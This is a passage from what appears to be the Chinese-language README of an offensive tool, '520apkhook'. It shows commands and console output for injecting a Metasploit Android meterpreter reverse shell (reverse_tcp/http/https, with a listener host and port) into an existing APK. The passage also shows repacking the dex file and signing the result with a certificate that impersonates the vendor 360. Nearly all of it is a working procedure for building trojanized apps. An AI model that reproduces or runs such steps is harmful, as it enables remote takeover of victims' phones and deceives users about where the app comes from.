 3. 生成中需要指定msf payload类型

   ```sh
   ➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk
   
   [*] 创建随机字符串,用来修改msf payload!
   [+] 生成成功!
   
   [*] 检查电脑上的开发环境
   ================================
   
   [:] NOTE : 请确认安装jdk8环境!
   
   [*] 检查 : Jdk版本
   javac 1.8.0_282
   [+] JDK - OK
   
   [*] 检查 : msfvenom
   [+] msfvenom - OK
   
       ====================================
       [*] Available Types of Payload
       ====================================
       (1) android/meterpreter/reverse_tcp
       (2) android/meterpreter/reverse_http
       (3) android/meterpreter/reverse_https
   
   [?] 选择msf payload (1/2/3): 1
   [-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
   [-] No arch selected, selecting arch: dalvik from the payload
   No encoder specified, outputting raw payload
   Payload size: 10192 bytes
   ......
   ```

4. apk签名时需要输入证书的相关信息.

   ```sh
   ......
   [*] 将加固后的dex文件替换apk中的class dex!
    'classes.dex'...
   [+] 插入成功 !
   [+] app加固完成
   
   [*] 创建app签名文件!
   您的名字与姓氏是什么?
     [Unknown]:  zhouhongyi
   您的组织单位名称是什么?
     [Unknown]:  360
   您的组织名称是什么?
     [Unknown]:  qihu360
   您所在的城市或区域名称是什么?
     [Unknown]:  beijing
   您所在的省/市/自治区名称是什么?
     [Unknown]:  beijing
   该单位的双字母国家/地区代码是什么?
     [Unknown]:  china
   CN=zhouhongyi, OU=360, O=qihu360, L=beijing, ST=beijing, C=china是否正确?
     [否]:  y
   ......
   ```

